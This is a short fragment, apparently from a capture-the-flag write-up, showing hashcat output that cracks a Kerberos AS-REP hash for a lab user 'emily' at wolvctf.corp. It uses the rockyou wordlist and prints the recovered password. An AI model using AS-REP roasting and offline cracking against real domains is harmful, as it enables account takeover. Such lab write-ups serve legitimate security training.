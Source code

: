 ```
$krb5asrep$emily@wolvctf.corp:34c3460101da5a3081fa4f6518a0ece1$619944a029ef908c78a80e2559c06788e2d86aeb1c94cd97e4540e5ea57c550c7fbd768d6ea24dbc66cfc6b8a9e39c36439ca4b50dcf29f3c078785f876835b239b3628f561d080f83294c9a3bc8d1c4dec538a15339257dcaab20f33ee168bdea0671c4ab92da6b089d7700e7be42564706bfa903654edf11376c1994bbe6b9cc65e53275ef3148b638aa5a52284e29912c3ca2171fd50fbd6929511416b51f8c4f8cb9383da74e8db3b0493a2654093c44bc399695525dd90e271a90c9992024a1d05e4188ec588663d2d849142aed65c5b77c38ed3dc7bb65178a565248f199b5dc2d382d2da016dad023:youdontknowmypasswordhaha
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$emily@wolvctf.corp:34c3460101da5a3081fa4...dad023
Time.Started.....: Wed Mar 19 00:58:29 2025, (5 secs)
Time.Estimated...: Wed Mar 19 00:58:34 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   514.2 kH/s (1.02ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2574336/14344385 (17.95%)
Rejected.........: 0/2574336 (0.00%)
Restore.Point....: 2573312/14344385 (17.94%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: youkids -> youarehot1
Hardware.Mon.#1..: Util: 64%

Started: Wed Mar 19 00:58:27 2025
Stopped: Wed Mar 19 00:58:36 2025

```

![](Pasted_image_20250319005906.png)
